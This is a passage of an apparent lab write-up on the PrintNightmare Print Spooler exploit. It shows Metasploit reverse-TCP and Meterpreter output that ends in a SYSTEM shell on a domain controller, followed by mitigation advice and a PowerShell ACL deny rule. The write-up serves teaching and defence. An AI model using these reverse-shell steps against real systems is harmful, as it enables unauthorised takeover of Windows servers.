 Switch back to meterpreter:

```text
[*] Started reverse TCP handler on 192.168.0.3:443 
[*] Sending stage (200262 bytes) to 192.168.0.50
[*] Meterpreter session 1 opened (192.168.0.3:443 -> 192.168.0.50:57716) at 2021-07-01 11:16:24 +0100
```

Session connected, let's drop to a shell:

```text
meterpreter > shell
Process 6628 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>hostname
hostname
SPEN-DC1

C:\Windows\system32>whoami
whoami
nt authority\system
```

Pwned.

## Mitigation

The Print Spooler service is automatically started on Windows 10 as well as servers. For client devices you can use the Windows Firewall to block file and print sharing. This only effects the device if it's used to share out to other devices, it won't stop it's ability to print.

For servers Microsoft recommends [here](https://docs.microsoft.com/en-us/windows-server/security/windows-services/security-guidelines-for-disabling-system-services-in-windows-server#print-spooler) about disabling Print Spooler if device is not a print server.

Thanks to [Trusec](https://twitter.com/Truesec) for [this](https://blog.truesec.com/2021/06/30/fix-for-printnightmare-cve-2021-1675-exploit-to-keep-your-print-servers-running-while-a-patch-is-not-available/) post. Which gives us a way to tighten security on the drivers folder without the need to disable print services:

```text
$Path = "C:\Windows\System32\spool\drivers"
$Acl = Get-Acl $Path
$Ar = New-Object  System.Security.AccessControl.FileSystemAccessRule("System", "Modify", "ContainerInherit, ObjectInherit", "None", "Deny")
$Acl.AddAccessRule($Ar)
Set-Acl $Path $Acl
```

## Monitoring

